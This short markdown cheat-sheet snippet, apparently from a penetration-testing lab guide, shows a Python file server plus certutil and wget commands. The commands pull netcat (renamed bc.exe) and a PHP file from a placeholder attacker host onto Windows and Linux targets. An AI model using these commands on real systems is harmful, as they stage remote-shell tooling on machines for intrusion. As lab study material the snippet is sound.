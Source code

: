 
<h4>Setting Up  a webserver with python</h4>
```
python3 -m http.server 8080
```

To download from a remote server on a windows box
```
certutil -urlcache -f http://10.10.10.10/nc.exe bc.exe
```
To download from a remote server on a linux box
```
wget http://10.10.10.10/abeg.php
```
